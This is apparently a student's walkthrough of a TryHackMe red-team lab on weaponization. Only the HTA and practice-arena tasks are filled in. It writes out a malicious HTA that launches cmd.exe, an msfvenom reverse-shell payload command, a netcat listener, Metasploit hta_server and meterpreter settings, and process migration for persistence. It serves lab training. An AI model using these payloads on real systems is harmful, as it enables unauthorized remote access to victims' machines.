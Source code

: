 ![image](https://user-images.githubusercontent.com/51442719/180655800-ab7238f2-e777-4ea2-8203-8c2a0ca86566.png)

# [Weaponization](https://tryhackme.com/room/weaponization)
> #### Understand and explore common red teaming weaponization techniques. 
> #### You will learn to build custom payloads using common methods seen in the industry to get initial access.

---

- [x] [Task 1  Introduction](#task-1--introduction)
- [x] [Task 2  Deploy the Windows Machine](#task-2--deploy-the-windows-machine)
- [x] [Task 3  Windows Scripting Host - WSH](#task-3--windows-scripting-host---wsh)
- [x] [Task 4  An HTML Application - HTA](#task-4--an-html-application---hta)
- [x] [Task 5  Visual Basic for Application - VBA](#task-5--visual-basic-for-application---vba)
- [x] [Task 6  PowerShell - PSH](#task-6--powershell---psh)
- [x] [Task 7  Command And Control - (C2 Or C&C)](#task-7--command-and-control---c2-or-cc)
- [x] [Task 8  Delivery Techniques](#task-8--delivery-techniques)
- [x] [Task 9  Practice Arena](#task-9--practice-arena)

---

# [Task 1  Introduction]()

---

# [Task 2  Deploy the Windows Machine]()

---

# [Task 3  Windows Scripting Host - WSH]()

---

# [Task 4  An HTML Application - HTA]()

### An HTML Application (HTA)
- HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered.
- HTML Applications, also known as HTAs, which are dynamic `HTML` pages containing JScript and VBScript. 
- The LOLBINS (Living-of-the-land Binaries) tool `mshta` is used to execute HTA files. 
- It can be executed by itself or automatically from Internet Explorer. 

#### In the following example, we will use an [`ActiveXObject`](https://en.wikipedia.org/wiki/ActiveX) in our payload as proof of concept to execute `cmd.exe`. 
- Consider the following HTML code.
```hta
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
- Then serve the `payload.hta` from a web server, this could be done from the attacking machine as follows,
```cmd
python3 -m http.server 8090
```
- On the victim machine, visit the malicious link using Microsoft Edge, `http://10.8.232.37:8090/payload.hta`. Note that the `10.8.232.37` is the AttackBox's IP address.
  > ![image](https://user-images.githubusercontent.com/51442719/180656414-2cc1cad9-0fc5-4cc0-9cc1-087a192999ae.png)
- Once we press `Run`, the `payload.hta` gets executed, and then it will invoke the `cmd.exe`. 
- The following figure shows that we have successfully executed the `cmd.exe`.
  > ![image](https://user-images.githubusercontent.com/51442719/180656440-dda92953-4d5e-4541-8dec-74e52b781866.png)

#### HTA Reverse Connection
- We can create a reverse shell payload as follows,
```cmd
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
```
- We use the `msfvenom` from the `Metasploit` framework to generate a malicious payload to connect back to the attacking machine. 
- We used the following payload to connect the `windows/x64/shell_reverse_tcp` to our IP and listening port.
- On the attacking machine, we need to listen to the port `443` using `nc`. 
- Please note this port needs root privileges to open, or you can use different ones.
- Once the victim visits the malicious URL and hits run, we get the connection back.
```cmd
sudo nc -lvp 443
```

### Malicious HTA via Metasploit 
- There is another way to generate and serve malicious HTA files using the Metasploit framework. 
- First, run the Metasploit framework using `msfconsole -q` command. 
- Under the exploit section, there is `exploit/windows/misc/hta_server`, which requires selecting and setting information such as `LHOST`, `LPORT`, `SRVHOST`, `Payload`, and finally, executing `exploit` to run the module.
```cmd
use exploit/windows/misc/hta_server
```
```cmd
set LHOST 10.8.232.37
```
```cmd
set LPORT 443
```
```cmd
set SRVHOST 10.8.232.37
```
```cmd
set payload windows/meterpreter/reverse_tcp

```
```cmd
exploit
```
- On the victim machine, once we visit the malicious HTA file that was provided as a URL by Metasploit, we should receive a reverse connection.
```cmd
meterpreter > sysinfo
```




---

# [Task 5  Visual Basic for Application - VBA]()

---

# [Task 6  PowerShell - PSH]()

---

# [Task 7  Command And Control - (C2 Or C&C)]()

---

# [Task 8  Delivery Techniques]()

---

# [Task 9  Practice Arena]()

- We have prepared a Windows 10 machine that runs a user simulation web app to execute your payloads or visit the malicious HTA links automatically. 
- Deploy the attached machine and wait a couple of minutes until it's up and running. 
- Then, visit the user simulator web application at `http://10.10.132.115:8080/`.
- Make sure to visit the user simulator web application from the AttackBox, or you can access it by connecting to the VPN.
  > ![image](https://user-images.githubusercontent.com/51442719/180656171-3cd54534-77fc-458a-9d7b-f431ca69280d.png)
- The web application allows uploading payloads as VBS, DOC, PS1 files. In addition, if you provide a malicious HTA link, the web application will visit your link.
- **Note for Doc files**: the simulation used in the provided Windows 10 machine will open the malicious Word document and be closed within 90 seconds. 
- In order to get longer prescience, you need to migrate as soon as you receive the connection back. 
- In the Metasploit framework, we can inject our current process into another process on the victim machine using migrate. 
- In our case, we need to `migrate` our current process, which is the MS word document, into another process to make the connection stable even if the MS word document is closed. 
- The easiest way to do this is by using `migrate` post-module as follow,
```cmd
meterpreter > run post/windows/manage/migrate 
```
- In this task, the goal is to generate a reverse shell payload of your choice and send it through the web application. 
- Once the web application runs your payload, you should receive a connect back. 
- Answer the question below and prove your access by finding the flag once you receive a reverse shell.
- For reference, you can use the MSFVenom Cheat Sheet on this [`website`](https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/).

### Answer the questions below
- What is the flag? Hint: Check the user desktop folder for the flag!
  > Answer format: [`***{********************************}`]()







